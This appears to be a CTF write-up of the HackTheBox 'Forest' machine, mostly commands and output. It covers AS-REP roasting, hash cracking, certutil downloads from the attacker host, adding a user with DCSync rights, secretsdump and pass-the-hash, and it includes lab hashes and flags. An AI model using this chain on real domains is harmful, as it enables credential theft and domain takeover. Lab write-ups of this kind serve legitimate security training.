


###### tags: `Hack the box` `HTB` `Easy` `Windows`

# Forest
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.146.239 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.146.239:53
Open 10.129.146.239:88
Open 10.129.146.239:135
Open 10.129.146.239:139
Open 10.129.146.239:389
Open 10.129.146.239:445
Open 10.129.146.239:593
Open 10.129.146.239:636
Open 10.129.146.239:5985
Open 10.129.146.239:464
Open 10.129.146.239:9389
Open 10.129.146.239:3269
Open 10.129.146.239:3268
Open 10.129.146.239:47001
Open 10.129.146.239:49664
Open 10.129.146.239:49665
Open 10.129.146.239:49666
Open 10.129.146.239:49667
Open 10.129.146.239:49671
Open 10.129.146.239:49676
Open 10.129.146.239:49677
Open 10.129.146.239:49681
Open 10.129.146.239:49699
Open 10.129.146.239:51773

PORT      STATE SERVICE      REASON  VERSION
53/tcp    open  domain       syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2024-05-27 03:19:32Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack Microsoft Windows RPC
49676/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        syn-ack Microsoft Windows RPC
49681/tcp open  msrpc        syn-ack Microsoft Windows RPC
49699/tcp open  msrpc        syn-ack Microsoft Windows RPC
51773/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-05-26T22:49:20-07:00
```

domain是`htb.local`，`ldapsearch`，查看Users
```
┌──(kali㉿kali)-[~/htb/windapsearch]
└─$ python3 windapsearch.py --dc-ip 10.129.146.239 -d htb.local -U 

...
cn: Sebastien Caron
userPrincipalName: sebastien@htb.local

cn: Lucinda Berger
userPrincipalName: lucinda@htb.local

cn: Andy Hislip
userPrincipalName: andy@htb.local

cn: Mark Brandt
userPrincipalName: mark@htb.local

cn: Santi Rodriguez
userPrincipalName: santi@htb.local


[*] Bye!
```

```
┌──(kali㉿kali)-[~/htb]
└─$ enum4linux 10.129.146.239

user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

把這些user拿來`AS-REP Roasting`，`svc-alfresc`o可以no pass拿到hash
```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers -dc-ip 10.129.146.239 -request -outputfile hashes.asreproast htb.local/svc-alfresco
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[*] Cannot authenticate svc-alfresco, getting its TGT
$krb5asrep$23$svc-alfresco@HTB.LOCAL:16941ac70928e2999c597c77cfc60f53$a84fc4f582ef72ca6a70739fbd66a6b1eda44d2df6acbc104312ec3633f621f44c88145a2c1845575776165d0ebbc97f505f0935e01af7403b9be83f8736a66d492d2f9d6f4ebc1d91982d3cafae12d8b67773e0d2ac224e4564660df9dcd7c33da4ed74b0050b6a41de49f4b28598eb5aa2358838e1b989c25e85b31ad8b53a8449117813593ccfca7e68fe23c84f5300e843c5a83728aecf7c5956d420ea5d4accbbbde5dcb7b3ae6152ad726441f95df3ede3417452adca57a1cf44967c2150e6296aad8e17a09c6e4c33a41079aa233de2c60c5f1512ea8c1536d7eb346e34ea9de7fd53
```

john破
```
┌──(kali㉿kali)-[~/htb]
└─$ john svc-alfresco --wordlist=/home/kali/rockyou.txt

s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL) 
```

在`C:\Users\svc-alfresco\Desktop`得proof.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.146.239 -u svc-alfresco -p s3rvice

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
d2be64dd360deecc6698a161eccbdbf7
```

上傳`sharphounds`
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> certutil.exe -urlcache -f http://10.10.14.30/SharpHound.ps1 SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . .\SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module .\Sharphound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Documents -OutputPrefix "audit"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download audit_20240526231826_BloodHound.zip

┌──(kali㉿kali)-[~/htb]
└─$ sudo neo4j start

┌──(kali㉿kali)-[~/htb]
└─$ bloodhound
```

搜尋`SVC-ALFRESCO@HTB.LOCAL`點`Shortest Path from Owned Principals`



再來點`Find Shortest Paths to Domain Admins`



`Account operator`群組可以新增user

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user dave password123 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user /domain

User accounts for \\

-------------------------------------------------------------------------------
$331000-VK4ADACQNUCA     Administrator            andy
dave                     DefaultAccount           Guest
HealthMailbox0659cc1     HealthMailbox670628e     HealthMailbox6ded678
HealthMailbox7108a4e     HealthMailbox83d6781     HealthMailbox968e74d
HealthMailboxb01ac64     HealthMailboxc0a90c9     HealthMailboxc3d7722
HealthMailboxfc9daad     HealthMailboxfd87238     krbtgt
lucinda                  mark                     santi
sebastien                SM_1b41c9286325456bb     SM_1ffab36a2f5f479cb
SM_2c8eef0a09b545acb     SM_681f53d4942840e18     SM_75a538d3025e4db9a
SM_7c96b981967141ebb     SM_9b69f1b9d2cc45549     SM_c75ee099d0a64c91b
SM_ca8c2ed5bdab4dc9b     svc-alfresco
The command completed with one or more errors.
```

把他加入`Exchange Windows Permissions`
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add dave

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
dave
```

`WriteDACL`權限->`DCSYNC`參考[WriteDACL](https://github.com/xiaoy-sec/Pentest_Note/blob/master/wiki/%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8/ActiveDirectory%E7%9A%84ACL%E5%92%8CACE/WriteDACL.md)
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> certutil.exe -urlcache -f http://10.10.14.30/PowerView.ps1 PowerView.ps1

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module .\PowerView.ps1

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\dave', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=htb,DC=local' -Rights DCSync -PrincipalIdentity dave -Verbose -Domain htb.local
```

`secretsdump`
```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-secretsdump htb.local/dave:password123@10.129.146.239

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
```

登入，到`C:\Users\Administrator\Desktop`
```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-psexec Administrator@10.129.146.239 -hashes :32693b11e6aa90eb43d32c72a07ceea6

C:\Users\Administrator\Desktop> type root.txt
a2c8f00de25b30b5655c6c5ea59af721
```